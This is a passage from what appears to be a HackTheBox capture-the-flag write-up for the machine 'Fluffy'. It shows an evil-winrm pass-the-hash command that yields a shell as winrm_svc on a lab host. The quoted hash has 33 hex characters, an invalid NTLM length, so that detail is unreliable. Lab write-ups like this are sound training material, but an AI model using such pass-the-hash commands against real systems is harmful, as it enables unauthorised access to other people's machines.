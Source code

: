 ![](/assets/images/htb-writeup-fluffy/fluffy28.png)

With the hash, we can use `evil-winrm` to gain a shell as the `winrm_svc` user. This is a pass-the-hash technique.

```bash
evil-winrm -i 10.10.11.69 -u 'winrm_svc' -H '33bd09dcd697600edfb6b3a7af4875767'
```

We now have a shell on the machine as `winrm_svc` and can retrieve the user flag from the desktop.

![](/assets/images/htb-writeup-fluffy/fluffy29.png)

